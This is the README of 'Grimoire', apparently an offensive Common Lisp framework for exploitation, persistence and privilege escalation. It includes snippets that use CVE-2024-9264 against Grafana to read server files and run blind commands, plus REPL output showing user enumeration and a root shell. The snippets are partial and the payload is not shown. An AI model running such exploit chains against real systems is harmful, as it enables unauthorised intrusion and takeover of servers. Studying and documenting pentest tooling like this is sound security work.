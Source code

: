 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:SIGHT) , code execution (:COMMAND), blind code execution (:SIGHTLESS-COMMAND), file uploads (:MARK), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :COMMAND is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :SIGHT and :SIGHTLESS-COMMAND glyphs, you will be able to derive the :COMMAND through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :sight CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :sightless-command CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/info)
[+] Glyph "SIGHT"
    Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
    Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/info` will yield:
```lisp
GRIMOIRE> (transmutation/info)
[+] Transmutation "CAT"
    Runnable? [NO] (needs :COMMAND)
    Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
    Needed?   [YES] (provides :COMMAND)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :COMMAND
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```
    
You can always run `(info)` to see the state of the system:
```lisp
================== ~* SPELLS ~* ==================

[+] Spell "SYSTEM-INFO"
    Castable? [YES] (needs :SIGHT)

[+] Spell "ALL-USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "FLAG"
    Castable? [YES] (needs :SIGHT)

============== ~> TRANSMUTATIONS ~> ==============

[+] Transmutation "LET-THERE-BE-LIGHT"
    Possible? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
    Needed?   [YES] (provides :COMMAND)

================== <> GLYPHS <> ==================

[+] Glyph "SIGHT"
    Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
    Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"

==================================================
```

## Roadmap

In no particular order:
    
- [ ] Add mark (write) utilities to Grimoire.
- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
    
- [x] Add a deployable binary for persistance.
- [x] Add command (exec) utilities to Grimoire.
- [x] Add sight (read) utilities to Grimoire.
- [x] Add some kind of database to store relics and other stuff.

